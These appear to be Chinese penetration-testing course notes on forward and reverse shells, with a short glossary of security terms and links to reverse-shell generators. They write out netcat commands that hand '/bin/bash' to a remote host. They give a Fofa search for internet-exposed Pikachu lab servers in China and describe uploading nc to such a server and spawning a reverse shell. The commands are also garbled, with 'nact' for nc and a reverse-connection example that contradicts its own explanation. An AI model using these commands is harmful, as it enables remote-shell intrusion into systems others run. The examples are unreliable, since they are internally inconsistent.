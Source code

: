 aliyun：(nact www.xiaodi8.com 5566 -e /bin/bash) 

xiaodi8：(nc -lvvp 5566)

//小迪8不可以外联阿里云，阿里云能连小迪8



情况3：xiaodi8 <- 阿里云防火墙

aliyun：(nact www.xiaodi8.com 5566 -e /bin/bash) 

xiaodi8：(nc -lvvp 5566)

//小迪8可以外联阿里云，阿里云不能连小迪8

**正向连接:**

攻击者作为客户端去连接目标主机服务器端口。相当于是攻击者主动去找服务器。

例如： 情况2：xiaodi8服务器防火墙 -> 阿里云失败

aliyun：(nact www.xiaodi8.com 5566 -e /bin/bash)

xiaodi8：(nc -lvvp 5566)



**反向连接:**

目标主机作为客户端去主动访问攻击者的端口。相当于目标主机是客户端，攻击者是服务端。

例如： 情况2：xiaodi8防火墙 -> 阿里云

则：aliyun：(nact 5566 -e /bin/bash)

xiaodi8：(nc -lvvp www.xiaodi8.com 5566)

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720344599611-42cd8126-c9e4-4bc3-a26d-a1c82064623c.png)

案例:Fofa拿下Pikachu靶场反弹shell

fofa语法：

"pikachu"&&country="CN"&&title=="Get the pikachu"

“pikachu”&&country=“CN”&&title==“Get the pikachu”
用命令把nc上传到对方服务器，然后在代码执行反弹cmd命令

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720344630422-c8c22e48-fc9d-40d8-b53e-a4a62a6248fa.png)







![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721112816320-760a1962-980f-48df-8b06-4c6a810da758.png)

```plain
基础知识
#知识点：
1、名词解释-渗透测试-漏洞&攻击&后门&代码&专业词

2、必备技能-操作系统-用途&命令&权限&用户&防火墙

3、必备技能-文件下载-缘由&场景&使用-提权&后渗透

4、必备技能-反弹命令-缘由&场景&使用-提权&后渗透

前后端，POC（验证）/EXP（利用），Payload（以什么权限给到你）/Shellcode（漏洞利用代码），后门（系统等统称）/Webshell（特指网站），木马（控制电脑，操作）/病毒（完全破坏性程序），反弹（权限移交），回显，跳板，黑白盒测试，暴力破解，社会工程学（个人的个性），撞库，ATT&CK(attack.mitre.org)等

参考：
https://www.cnblogs.com/sunny11/p/13583083.html  //专有名词介绍
https://forum.ywhack.com/bountytips.php?download //下载命令
https://forum.ywhack.com/reverse-shell/   //反弹shell生成 
```